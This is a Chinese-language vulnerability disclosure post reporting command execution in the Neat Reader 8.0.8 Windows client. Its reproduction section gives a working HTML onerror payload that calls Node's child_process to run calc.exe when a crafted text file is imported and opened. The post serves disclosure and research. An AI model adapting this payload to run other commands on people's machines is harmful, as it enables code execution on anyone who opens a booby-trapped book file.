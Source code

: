 #  Neat Reader存在命令执行漏洞   
原创 隐雾安全  隐雾安全   2025-02-19 03:12  
  
一、漏洞描述  
  
北京高知图新教育科技有限公司  
，成立于  
2016  
年，  
Neat Reader是该公司旗下的产品。致力于打造一个满足现代需求的 EPUB/TXT 阅读器，Neat Reader 拥有强大的解析引擎，支持ePub和Txt，无论是任何类型的图书，都能完美展现，提供最佳阅读效果。Neat Reader存在命令执行漏洞，攻击者可以使用此漏洞进行恶意命令执行。  
  
二、漏洞影响  
  
Windows客户端8.0.8  
  
三、漏洞复现  
  
创建一个文本文档，填入以下payload：  
  
<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>">  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34ysykHDxYkqwicUYIxY7Zau1vn2oVMj5o4nENjZ5Z3pTIceWM4z7YzParLIeLcUfufCMbvy8AHcFkA/640?wx_fmt=png&from=appmsg "")  
  
打开  
 Neat Reader，点击添加图书，选择包含payload的文本文档导入。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34ysykHDxYkqwicUYIxY7Zau1sWwibErlJnKzUOTR0TCkjYdqic2Q3VDARLX94EyaTCVjmzXRujNLyd1A/640?wx_fmt=png&from=appmsg "")  
  
导入后如下图所示  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34ysykHDxYkqwicUYIxY7Zau1JOO5fpoHdYNuW4at3Uv8HtZJG9BvJAHImcK5kRxr1xicQQdsyEoaDeQ/640?wx_fmt=png&from=appmsg "")  
  
点击新添加的文本文档，触发payload成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34ysykHDxYkqwicUYIxY7Zau1ib4tjOFjSJsfbY8icGv9jTanM8UhGmKN9fg3a1Uz00sKUXOWvpZgNATA/640?wx_fmt=png&from=appmsg "")  
  
--SRC学员投稿--  
  
  

